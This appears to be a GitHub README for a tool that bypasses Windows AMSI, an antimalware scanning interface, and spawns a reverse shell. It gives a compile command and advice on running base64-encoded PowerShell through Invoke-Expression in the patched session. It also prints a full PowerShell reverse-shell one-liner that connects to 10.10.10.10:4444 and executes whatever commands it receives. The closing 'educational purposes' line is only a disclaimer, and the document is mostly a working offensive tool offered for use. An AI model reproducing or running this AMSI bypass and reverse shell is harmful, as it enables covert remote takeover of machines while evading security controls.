 # AmsiBypass and ReverseShell

## Demo Video

 
https://user-images.githubusercontent.com/89106058/232936480-b0e4e0d8-d435-449c-93c7-a3e8a150027e.mp4


## Compilation command

```powershell
g++ -m64 -o happy_hacking.exe -static main.cpp
```

## Important

- You must check that the commands contained in base64 belong exclusively to PowerShell to ensure their correct execution.
- You should always try to use Invoke-Expression to make the command run in the patched powershell to avoid creating new powershell instances that are not patched.

An example of a one-liner that contains only PowerShell statements and can be base64 encoded:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10', 4444); $stream = $client.GetStream(); [byte[]]$bytes = 0..65535 | ForEach-Object {0}; while (($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {$data = ([System.Text.Encoding]::ASCII).GetString($bytes, 0, $i);$sendback = (Invoke-Expression $data 2>&1 | Out-String);$sendback2 = $sendback + 'PS ' + (Get-Location).Path + '> ';$sendbyte = ([System.Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte, 0, $sendbyte.Length);$stream.Flush()};$client.Close();
```

Finally, I am not responsible for what you do with the code, this is purely for educational purposes.

